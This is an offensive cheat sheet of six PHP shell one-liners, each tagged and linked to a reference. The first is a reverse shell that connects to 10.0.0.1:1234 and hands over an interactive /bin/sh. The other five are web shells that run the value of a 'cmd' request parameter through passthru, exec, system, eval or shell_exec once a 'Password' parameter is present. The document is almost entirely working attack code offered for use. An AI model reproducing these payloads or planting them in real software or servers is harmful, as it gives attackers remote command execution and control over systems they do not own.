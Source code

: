 ### 1. php reverse shell : php from the CLI
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
**- linux,reverse shells,Windows,php**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 2. Php Simple shell, set aPasswordto access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){passthru($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.passthru.php
__________
### 3. Php Simple shell, set Password to access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){exec($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.exec.php
__________
### 4. Php Simple shell, set Password to access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){system($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.system.php
__________
### 5. Php Simple shell, set Password to access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){eval($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.eval.php
__________
### 6. Php Simple shell, set Password to access, bis your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){shell_exec($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.shell-exec.php
__________
